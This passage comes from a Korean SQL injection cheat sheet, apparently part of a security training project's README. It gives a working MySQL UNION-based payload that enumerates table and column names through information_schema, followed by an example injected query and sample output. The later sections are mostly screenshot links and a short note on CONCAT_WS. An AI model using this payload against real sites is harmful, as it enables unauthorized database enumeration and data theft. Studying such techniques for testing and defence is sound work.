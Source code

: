 `SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns`<br><br>

예 :<br>
`SELECT username FROM Users WHERE id = '-1' UNION SELECT MID(GROUP_CONCAT(0x3c62723e, 0x5461626c653a20, table_name, 0x3c62723e, 0x436f6c756d6e3a20, column_name ORDER BY (SELECT version FROM information_schema.tables) SEPARATOR 0x3c62723e),1,1024) FROM information_schema.columns--+';`<br><br>

결과값 :<br>
Table: talk_revisions<br>
Column: revid<br><br>

Table: talk_revisions<br>
Column: userid<br><br>

Table: talk_revisions<br>
Column: user<br><br>

Table: talk_projects<br>
Column: priority<br><br>

**⑤ 컬럼 이름에서 테이블 찾기**<br><br>

![스크린샷 2024-04-17 오후 2 24 41](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/cfdc2a25-5b17-4e98-9cea-c29da3367748)<br><br>


**⑥ 테이블 이름에서 컬럼 찾기**<br><br>

![스크린샷 2024-04-17 오후 2 25 03](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/acd92c65-df85-491c-a56d-3d222a2c66eb)


**⑦ 현재 쿼리 찾기**<br><br>

![스크린샷 2024-04-17 오후 2 25 23](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/9cc0aace-59fe-44e7-93b3-e4c723f8ec1d)<br><br><br>



## (10) 인용 기호 피하기

![스크린샷 2024-04-17 오후 2 25 49](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/2c85ad87-68b3-4210-a6bd-68fb7fc9592f)<br><br><br>




## (11) 문자열 연결

![스크린샷 2024-04-17 오후 2 26 12](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/62376f97-03bb-4880-b704-bf6303bd11cd)<br><br>


노트 :<br>
CONCAT() 은 인수 중 하나라도 NULL 이면 NULL 을 반환함. 대신 CONCAT_WS()를 사용하십시오.<br>
CONCAT_WS()의 첫 번째 인수는 나머지 인수에 대한 구분 기호를 정의함.<br><br><br>



## (12) 조건문
